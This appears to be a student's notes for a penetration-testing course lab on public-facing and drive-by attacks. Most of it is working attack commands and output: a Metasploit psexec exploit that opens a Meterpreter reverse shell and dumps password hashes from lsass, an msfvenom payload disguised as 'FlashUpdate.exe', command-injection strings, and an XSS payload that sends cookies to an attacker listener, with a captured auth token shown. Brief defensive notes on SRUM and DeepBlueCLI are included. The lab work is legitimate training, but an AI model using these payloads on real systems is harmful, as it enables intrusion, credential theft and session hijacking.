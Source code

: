 # Lab 4 Public Facing and Drive-By Attacks

## 4.1 Metasploit

```bash
# start Metasploit
msfconsole -q

# searches exploits for psexec
msf6 > search type:exploit psexec

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/local/current_user_psexec  1999-01-01       excellent  No     PsExec via Current User Token
   1  exploit/windows/local/wmi                  1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
   2  exploit/windows/smb/ms17_010_psexec        2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  exploit/windows/smb/psexec                 1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   4  exploit/windows/smb/webexec                2018-10-24       manual     No     WebExec Authenticated User Code Execution

# select a particular exploit
msf6 > use exploit/windows/smb/psexec

# shows all options/ params for an exploit
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

# Configure exploit settings (default payload is reverse shell); RHOSTS = target
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.0.1
RHOSTS => 10.10.0.1
msf6 exploit(windows/smb/psexec) > set SMBUSER sec504
SMBUSER => sec504
msf6 exploit(windows/smb/psexec) > set SMBPASS sec504
SMBPASS => sec504
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.75.1
LHOST => 10.10.75.1
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.75.1:4444 
[*] 10.10.0.1:445 - Connecting to the server...
[*] 10.10.0.1:445 - Authenticating to 10.10.0.1:445 as user 'sec504'...
[*] 10.10.0.1:445 - Selecting PowerShell target
[*] 10.10.0.1:445 - Executing the payload...
[+] 10.10.0.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.0.1
[*] Meterpreter session 1 opened (10.10.75.1:4444 -> 10.10.0.1:1547) at 2022-07-15 16:13:36 +0000

meterpreter > 

# Put meterpreter in bg
meterpreter > background
[*] Backgrounding session 1...

# Foreground meterpreter
msf6 exploit(windows/smb/psexec) > sessions 1
[*] Starting interaction with 1...

# Execute a command in meterpreter and interact with the output
meterpreter > execute -if systeminfo
Process 1852 created.
Channel 1 created.

Host Name:                 SEC504STUDENT
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-10181-97955-AA722
Original Install Date:     4/1/2019, 1:14:35 AM
System Boot Time:          7/14/2022, 5:40:12 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual 
...

# Migrate to processes with access to passwords, then dump passwords
meterpreter > migrate -N lsass.exe
[*] Migrating from 2412 to 676...
[*] Migration completed successfully.

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Sec504:1000:aad3b435b51404eeaad3b435b51404ee:864d8a2947723c4264598997c1d67a83:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9679f78eec859fdedb8c208c8fcf4abf:::
```

May need to run `exploit` more than once if all settings are valid.

Additional relevant Meterpreter commands:

- getpid: identify our process
- help: retrieve other commands
- ps: list running processes
- getuid: retrieve current user info
- hashdump: retrieve passwords

Analyze Metasploit attacks with DeepBlueCLI.
## 4.2 BeEF

BeEF: tool for exploiting browsers and conducting client-side social engineering attacks.

```bash
# Make payload
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp /
lhost=10.10.75.1 lport=4444 -f exe -o /tmp/FlashUpdate.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: /tmp/FlashUpdate.exe

# Setup the reverse shell handler
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.75.1
LHOST => 10.10.75.1
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.75.1:4444
```

Beef control panel:

![Beef Control](img/lab4/beef1.PNG)

Social engineering presentation to user:

![Social engineering client pov](img/lab4/beef2.PNG)

```bash
# Proof of exploit
meterpreter > sysinfo
Computer        : SEC504STUDENT
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : SEC504
Logged On Users : 2
Meterpreter     : x86/windows
```

## 4.3 System Resource Usage Database Analysis (srum-dump)

Used to identify anomalous network behavior on a Windows machine.

SRUM database: Windows 8/10 tool used by OS to record detailed info about the system resource utilization.

Location of SRUM data: `C:/Windows/System32/sru/SRUDB.dat`

Some of this information is available from Task Manager

Create an Excel doc from the db, sort the `Network` data by `Bytes Sent` and evaluate the `Application` and `Profile` of the top talkers.

## 4.4 Command Injection Attack

Check input fields for command injection potential, such as:

![cmd inject1](img/lab4/rook1.PNG)

Test additional operators like `&&` and `||` with arguments before and after to get successful executions.

`&&` requires a valid prior command to run the injection on the right side of the shell separator, as is the case with: `127.0.0.1 && ls`

`||` requires the left side to be invalid, as is the case with: `-h || ls` in this example.

## 4.5 XSS Attack

Uses the same vulnerable site as before, just the `Search` page.

We can use the Developer Tools to see the output of searching for an input is not filtered --> vulnerable to XSS attack.

Because the site renders content delivered from a crafted URL, this is a *__reflected XSS__* attack.

If the submission was recorded, this would be a *__stored XSS__* vuln.

```bash
# need a PHP server listening on port 2222 with our payload in the directory
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>

# Successful execution gives us an auth token we can use with curl to see the admin page
Listening on http://0.0.0.0:2222
Document root is /home/sec504/labs/cookiecatcher
Press Ctrl-C to quit.
[Fri Jul 15 19:32:51 2022] 172.30.0.45:44446 [200]: /?authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb
```

## 4.6 SQL Injection (SQLMap)


## 4.7 Cloud SSRF and IMDS Attack
